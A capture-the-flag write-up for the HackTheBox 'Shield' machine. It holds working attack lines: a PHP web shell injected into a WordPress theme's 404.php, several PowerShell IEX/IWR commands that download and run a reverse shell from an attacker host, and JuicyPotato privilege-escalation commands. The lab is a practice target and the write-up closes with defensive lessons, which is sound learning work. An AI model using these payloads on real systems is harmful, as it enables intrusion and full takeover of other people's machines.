

# HackTheBox - Shield Writeup


## Enumeration

- scan top 1000 ports
- the result

```sql
nmap -sC -sV -oN nmap/initial 10.10.10.29
```


- scan all ports
- the result

```sql
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.29
```


- all scan still the same
- open ports
	- 80 / http
	- 3306 / mysql

## WebPage

- Just default windows server page


### Gobuster

- Using gobuster to find any hidden directory
- the result


### WordPress

- the result show this server have `wordpress` install
- as we know, the wordpress login path is `/wp-admin`
- let's take a look

### Admin Login

- Try to login as admin with credentials from previous box `vaccine`
- Success


## Foothold/Gaining Access

### WordPress Theme Injection
- Let's try get the reverse shell by injected the theme
- I'm gonna use this theme "GutenBooster" 
  - and the shell I'm gonna use [Nishang](https://github.com/samratashok/nishang)
- Now, I'm gonna put command in the `404.php`. 
- Which is a 404 template
- Source
  - [Wordpress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)

```php
<?php
exec('powershell IEX(IWR http://10.10.16.13:8000/rev.ps1 -UseBasicParsing)')
?>
```

- This command will download the reverse shell and execute it


- Well, the reverse shell is succefully execute 

### SeImpersonatePrivilege

- everytime you've got `powershell reverse shell`
- make sure to run
  - `whoami /all`

- The result



- Looks like `SeImpersonatePrivilege is enable `
- We can privesc by using `juicy potato`
- Source
  - [JuicyPotato - Github](https://github.com/ohpe/juicy-potato)
- download the binary into `local machine`. Then, upload into `victim machine`
- via this command
```powershell
IWR http://10.10.16.34:8000/JuicyPotato.exe -outfile again_gimme.exe
```

- then run the binary.
- the result


## Privilege Escalation

- First, I'm gonna make `bat` file with powershell command on it.
- I'm called the file `yo_my.bat`
- the command:
- Source
  - [IppSec - Making bat file](https://youtu.be/1ae64CdwLHE?t=2563)

```powershell
powershell "(IEX(IWR http://10.10.16.34:8000/rev.ps1 -UseBasicParsing))"
```

### POTATO

- I'm gonna run `again_gimme.exe` again with this flag:
  - `./again_gimme.exe -t * -p yo_my.bat -l 9902`

- the result


- it is failed but we can try with more `CLSID`
- Source
  - [IppSec - JuicyPotato fails with the default CLSID, changing it up to get it working.](https://youtube.com/watch?v=1ae64CdwLHE&t=2675)
  - [Windows CLSID](http://ohpe.it/juicy-potato/CLSID/)
- before we start using the CLSID. We're need to know what type of `OS version` this machine running on
- by using this command:
- `(Get-WmiObject Win32_OperatingSystem).Caption`
- the result


- Now, we're need to pick [Windows Server 2016 Standard CLSID](http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/) 
- I'm gonna try with `wpnservice CLSID`
- I'm gonna run this command

```powershell
.\again_gimme.exe -t * -p yo_my.bat -l 9902 -c '{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}'
```

> NOTE: Make sure you're running the nc for listening the connection
> 
> REMEMBER: The powershell command in the `bat file` was downloading another reverse shell file called `rev.ps1`.
> in that file. I'm listening on 9901. If you listen on the other port. Just change the port on that file.

- the result


- we've got the root flag


## Conclusion
I've learned a lot today. Do not put any credentials on the exposure machine to the hacker or non-secure machine. Even tho it's happened, quickly change the password. I'm also introducing a bunch of tools for windows pentest/hack. Lastly, always update and patch the machine.

I have a fun time doing this machine and I hope you guys do too. Bye ;)
